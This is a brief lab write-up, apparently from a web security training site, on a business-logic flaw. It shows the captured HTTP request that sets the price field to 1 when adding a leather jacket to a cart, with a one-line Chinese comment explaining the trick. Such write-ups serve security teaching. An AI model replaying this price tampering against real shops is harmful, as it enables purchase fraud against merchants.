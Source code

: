 # Lab: Excessive trust in client-side controls

This lab doesn't adequately validate user input. You can exploit a logic flaw in its purchasing workflow to buy items for an unintended price. To solve the lab, buy a "Lightweight l33t leather jacket".

You can log in to your own account using the following credentials: wiener:peter

## Business Logic vulnerabilities
* 題目說要買指定的商品，改一下價格就可以買了
```
POST /cart HTTP/1.1
Host: ace91f121e9af65dc0741cda0090006c.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5 (Ergänzendes Update)) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.1.1 Safari/605.1.15
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 44
Origin: https://ace91f121e9af65dc0741cda0090006c.web-security-academy.net
Connection: close
Referer: https://ace91f121e9af65dc0741cda0090006c.web-security-academy.net/product?productId=1
Cookie: session=I5SrOQJP5I724aKlnwFloDGdcmgS9S5g
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-Forwarded-For: 127.0.0.1
Pragma: no-cache
Cache-Control: no-cache

productId=1&redir=PRODUCT&quantity=1&price=1
```